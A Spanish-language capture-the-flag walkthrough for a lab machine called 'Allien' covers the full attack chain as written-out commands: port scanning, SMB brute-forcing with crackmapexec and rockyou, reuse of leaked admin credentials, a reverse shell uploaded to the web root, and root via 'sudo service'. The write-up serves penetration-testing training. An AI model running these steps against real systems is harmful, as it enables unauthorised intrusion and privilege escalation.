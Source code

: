```yaml
---
description: '✍️ Autor: Luisillo_o🔍 Dificultad: Fácil  📅 Fecha de creación: 10/10/2024'
---
```


# Allien

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (807).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH,** el **puerto 80** perteneciente al **servicio HTTP,** el **puerto 139** perteneciente al **servicio NetBIOS**  y el **puerto 445** perteneciente al **servicio SMB** están abiertos por lo que a continuación se indagará más.&#x20;

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80,139,445 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web sea una página sobre un panel de Login.

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios y archivos con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,txt,php,xml
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisamos los archivos pero no encontramos nada relevante.

Vamos a descubrir usuarios y carpetas compartidas válidos para **SMB**.

```bash
enum4linux 172.17.0.2
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Descubrimos varios usuarios por lo que realizamos fuerza bruta con **crackmapexec** pero solo con **satriani7** tenemos resultado.

```bash
crackmapexec smb 172.17.0.2 -u satriani7  -p /usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (17) (1).png" alt=""><figcaption></figcaption></figure>

Tenemos las credenciales por lo que vamos a enumerar los recursos compartidos del usuario.

```bash
smbmap -u satriani7 -p 50cent -H 172.17.0.2
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos a ver el contenido de esas carpetas.

```bash
smbclient //172.17.0.2/myshare -U 'satriani7'
smbclient //172.17.0.2/backup24 -U 'satriani7'
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos descargamos el contenido para visualizarlo.

<figure><img src="../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como vemos nos dice que tenemos las credenciales de varios usuarios incluyendo la del **administrador** pues nos logueamos pero con ese usuario.

```bash
smbmap -u 'administrador' -p 'Adm1nP4ss2024' -H 172.17.0.2
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

Tenemos permisos en la carpeta `/home` pues vamos a ver que contiene.

```bash
smbclient //172.17.0.2/home -U 'administrador'
```

<figure><img src="../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que es el mismo contenido de la página por lo que subimos una [Reverse Shell](https://www.revshells.com/).

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

Nos ponemos en escucha.

```bash
nc -nlvp 443
```

<figure><img src="../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.&#x20;

<figure><img src="../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención **service** por lo que buscamos en esta [página ](https://gtfobins.github.io/gtfobins/sed/)cómo explotarlo.

```bash
sudo /usr/sbin/service ../../bin/sh
```

<figure><img src="../../.gitbook/assets/image (18) (1).png" alt=""><figcaption></figcaption></figure>
